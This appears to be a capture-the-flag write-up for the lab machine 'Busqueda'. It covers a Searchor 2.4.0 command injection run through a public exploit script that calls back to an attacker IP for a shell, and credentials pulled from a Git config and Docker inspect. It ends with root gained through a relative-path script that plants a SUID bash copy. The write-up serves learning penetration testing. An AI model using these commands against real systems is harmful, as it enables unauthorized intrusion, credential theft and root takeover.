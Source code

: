 # Busqueda

Busqueda is an Easy Difficulty Linux machine that involves exploiting a command injection vulnerability present in a `Python` module. By leveraging this vulnerability, we gain user-level access to the machine. To escalate privileges to `root`, we discover credentials within a `Git` config file, allowing us to log into a local `Gitea` service. Additionally, we uncover that a system checkup script can be executed with `root` privileges by a specific user. By utilizing this script, we enumerate `Docker` containers that reveal credentials for the `administrator` user\&amp;#039;s `Gitea` account. Further analysis of the system checkup script\&amp;#039;s source code in a `Git` repository reveals a means to exploit a relative path reference, granting us Remote Code Execution (RCE) with `root` privileges.



<figure><img src="../../.gitbook/assets/Busqueda.png" alt=""><figcaption></figcaption></figure>



lets begin with nmap -A 10.10.11.208 :&#x20;

```
nmap -A 10.10.11.208Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-13 10:47 EDT
Stats: 0:00:13 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 49.80% done; ETC: 10:47 (0:00:13 remaining)
Stats: 0:00:24 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 50.00% done; ETC: 10:47 (0:00:06 remaining)
Nmap scan report for 10.10.11.208
Host is up (0.21s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
| 256 4f:e3:a6:67:a2:27:f9:11:8d:c3:0e:d7:73:a0:2c:28 (ECDSA)
|_ 256 81:6e:78:76:6b:8a:ea:7d:1b:ab:d4:36:b7:f8:ec:c4 (ED25519)
80/tcp open http Apache httpd 2.4.52
|_http-title: Did not follow redirect to http://searcher.htb/
|_http-server-header: Apache/2.4.52 (Ubuntu)
Service Info: Host: searcher.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 33.37 seconds

```

after edit /etc/hosts and add as searcher.htb

then visit website

<figure><img src="../../.gitbook/assets/1.png" alt=""><figcaption><p>http://searcher.htb/</p></figcaption></figure>

we notice seachor 2.4.0 version

<figure><img src="../../.gitbook/assets/2.png" alt=""><figcaption></figcaption></figure>

lets find exploit or cve for it

I found cve that RCE to it

{% embed url="https://security.snyk.io/vuln/SNYK-PYTHON-SEARCHOR-3166303" %}

here is automation of exploit

{% embed url="https://github.com/nikn0laty/Exploit-for-Searchor-2.4.0-Arbitrary-CMD-Injection.git" %}

lets make the user shell

run command inside exploit folder

```
./exploit.sh searcher.htb <attacker-ip>
```

> note : by default Run the exploit with default port `9001` on attacker host

if you want specific port

```
./exploit.sh searcher.htb <attacker-ip> <attacker-port>
```

user.txt flag

<figure><img src="../../.gitbook/assets/3.png" alt=""><figcaption></figcaption></figure>

lets return to /var/www/app

and ls -la

here is .git

lets see it

<figure><img src="../../.gitbook/assets/4.png" alt=""><figcaption></figcaption></figure>

here is config file lts see it what does have

<figure><img src="../../.gitbook/assets/5.png" alt=""><figcaption></figcaption></figure>

we found credentials and website

1- credentials cody:jh1usoih2bkjaspwe92 and its same user on system svc but cody in website

2- gitea.searcher.htb (add it to /etc/hosts )

<figure><img src="../../.gitbook/assets/6.png" alt=""><figcaption></figcaption></figure>

lets visit cody just for review

<figure><img src="../../.gitbook/assets/7.png" alt=""><figcaption></figcaption></figure>

now lets return to our shell to see the sudoers what we can do as sudo

<figure><img src="../../.gitbook/assets/8.png" alt=""><figcaption></figcaption></figure>

so we have

```
sudo /usr/bin/python3 /opt/scripts/system-checkup.py *
```

here what we can do with it

<figure><img src="../../.gitbook/assets/9.png" alt=""><figcaption></figcaption></figure>

lets do docker-inspect

```
sudo python3 /opt/scripts/system-checkup.py docker-inspect '{{json .}}' gitea | jq .
```

We found password&#x20;

<figure><img src="../../.gitbook/assets/10.png" alt=""><figcaption></figcaption></figure>

lets try login in as administrator:yuiu1hoiu4i5ho1uh in gitea

works :)!!

<figure><img src="../../.gitbook/assets/11.png" alt=""><figcaption></figcaption></figure>

lets review scripts packege it has root access so from administrator so lets make sudoers as file and make shell with root access

<figure><img src="../../.gitbook/assets/12.png" alt=""><figcaption></figcaption></figure>

permissions as we said

<figure><img src="../../.gitbook/assets/13.png" alt=""><figcaption></figcaption></figure>

```
 echo -e '#!/bin/bash\n\ncp /bin/bash /tmp/0xcybersoldier\nchmod 4777 /tmp/0xcybersoldier' > full-checkup.sh
```

<figure><img src="../../.gitbook/assets/14.png" alt=""><figcaption></figcaption></figure>

```
sudo python3 /opt/scripts/system-checkup.py full-checkup
[+] Done!
svc@busqueda:/tmp$ ls
ls
0xcybersoldier
full-checkup.sh
snap-private-tmp
svc@busqueda:/$ /tmp/0xcybersoldier -p
/tmp/0xcybersoldier -p
whoami
root
cat /root/root.txt
```

<figure><img src="../../.gitbook/assets/15.png" alt=""><figcaption></figcaption></figure>
